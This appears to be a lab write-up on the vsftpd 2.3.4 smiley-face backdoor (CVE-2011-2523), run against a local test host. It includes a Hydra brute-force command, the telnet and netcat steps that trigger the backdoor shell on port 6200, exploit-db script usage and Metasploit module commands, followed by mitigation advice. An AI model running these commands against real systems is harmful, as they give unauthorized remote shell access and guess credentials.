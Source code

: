 # vsftpd 2.3.4

## Introduction

- vsftpd is an `FTP server` for Unix-like systems, including Linux
- Port: 21 which is the default FTP port.

## Anonymous Login

- There could be some files or directories that are publicly accessible through anonymous users that can leak sensitive data.
- We can FTP login with anonymous user. However, no files, directories or directory traversal found. We also do not have access to write or upload any file.

## Bruteforcing via Hydra

- Default and weak passwords are vulnerable to bruteforce attacks leading to unauthorized access of FTP shares.
- Trying to bruteforce using common usernames and password lists:
	- `hydra 172.16.242.129 ftp -L /usr/share/seclists/Usernames/Names/names.txt -P /usr/share/wordlists/rockyou.txt -t 50`
		- ftp: Specifies the protocol to attack, in this case, FTP.
		- -L : Specifies the path to a file containing a list of usernames to try during the attack.
		- -P : Specifies the path to a file containing a list of passwords to attempt.
		- -t 50: Sets the number of parallel connections (threads) to use for the attack. It is not generally recommanded to use these large number of threads as they can trigger security mechanisms on the target but since this is on our local machine, 50 threads are fine.
- However, bruteforcing lead to no correct credentials that can be used to login via FTP.

## Searchsploit

- SearchSploit is a command-line search tool for Exploit-DB that allows you to take a copy of the Exploit Database with you.
- `searchsploit vsftpd 2.3.4`
	
	![searchsploit results](../../images/vsftpd_2.3.4.jpeg)

- SearchSploit reveals that there is `Backdoor Command Execution` vulnerability present in vsftpd 2.3.4 version of FTP.

### vsftpd 2.3.4 - Backdoor Command Execution - Smiley [:)] Face backdoor (CVE: 2011-2523)

- The version of vsftpd running on the remote host has been compiled with a backdoor. Attempting to login with a `username containing :)` (a smiley face) triggers the backdoor, which results in a shell listening on TCP `port 6200`. The shell stops listening after a client connects to and disconnects from it. [ Source: https://www.tenable.com/plugins/nessus/55523]
- The source code of this version of vsftpd was modified either through access of distributing website or the distributing server.

- We can see in the if the bytes of the input match `0x3a` [":" from HEX] and `0x29` [")" from HEX], the `vsf_sysutil_extra()` function will get executed.

[backdoor code](https://static.packt-cdn.com/products/9781786463166/graphics/image_01_017.jpg)

- The `vsf_sysutil_extra()` function contains the following code. We can clearly see that it attempts to open port 6200 through `htons(6200)` and provides a shell with `execl("/bin/sh")` so that attacker can interact with the system.

![backdoor code](https://static.packt-cdn.com/products/9781786463166/graphics/image_01_018.jpg)

#### Impact Analysis

- Since this vulnerability starts a backdoor, it gives Remote Code Execution [RCE] and full access of the system as the user that was used to configure the vsftpd service on the system.
- The attacker can easily pretend to be the original user and modify/harm the system files.
- Therefore, the impact level of this vulnerability is very high.

#### Proof of Concept

- This vulnerability can be exploited either through Metasploit or manually through an automated script or command line.

- Command Line Exploitation:
	- Connect to FTP using telent or netcat:
		- `telnet 172.16.242.129 21`
		- `USER user_name:)`  # username doesn't matter as long as it contains smiley face [:)]
		- `PASS any_password` # password doesn't matter
		- This should've opened port `6200` on the host machine that runs the backdoor.

		![backdoor command injection](../../images/backdoor_command_inject_vsftpd_1.jpeg)

	- Use telent or netcat to connect on `6200` port backdoor:
		- `nc 172.16.242.129 6200`
		- `id` # verify Connection

		![backdoor command injection](../../images/backdoor_command_inject_vsftpd_2.jpeg)

- Automated Script Exploitation:
	- Script can be downloaded from exploit-db [https://www.exploit-db.com/exploits/49757] or copied from searchsploit tool.
	- Usage:
		- `python3 49757.py <IP_ADDRESS>`

- Metsploit Exploitation:
	- We can use the `exploit/unix/ftp/vsftpd_234_backdoor` exploit from metasploit and gain access through backdoor easily.
		- `use exploit/unix/ftp/vsftpd_234_backdoor` 
	- We can see what all parameters we need to set in order to exploit the machine using:
		- `show options` 

		![backdoor command injection](../../images/backdoor_command_inject_vsftpd_msf_1.jpeg)

	- Set target(s) (RHOSTS):
		- `set RHOSTS <IP_ADDRESS>`
	- Execute the attack using run or exploit command:
		- `exploit`

		![backdoor command injection](../../images/backdoor_command_inject_vsftpd_msf_2.jpeg)


#### Patches and Updates:

- The developers of vsftpd responded to this vulnerability and released newer versions of the software with security patches and fixes.
- All users were advised to update to the latest version as soon as possible to protect their servers from exploitation.

#### Mitigation

- Software Integrity and Authenticity Checks using CheckSums and digital signatures.
- Regular updates and stronger credentials.
- Setting up services as non-root user in a sandbox or isolated environment.

## References

- https://www.tenable.com/plugins/nessus/55523
- https://subscription.packtpub.com/book/security/9781786463166/1/ch01lvl1sec18/vulnerability-analysis-of-vsftpd-2-3-4-backdoor
- https://www.exploit-db.com/exploits/49757

## Conclusion

- The examination of the vsftpd 2.3.4 backdoor vulnerability underscores the critical importance of maintaining robust security practices. 
- This vulnerability illustrates how seemingly minor oversights can lead to significant security breaches, enabling unauthorized remote code execution.
- Effective mitigation involves regular updates, stringent software integrity checks, and operating services with minimal privileges.
- This case study highlights the necessity for continuous vigilance and proactive security measures to protect against sophisticated cyber threats.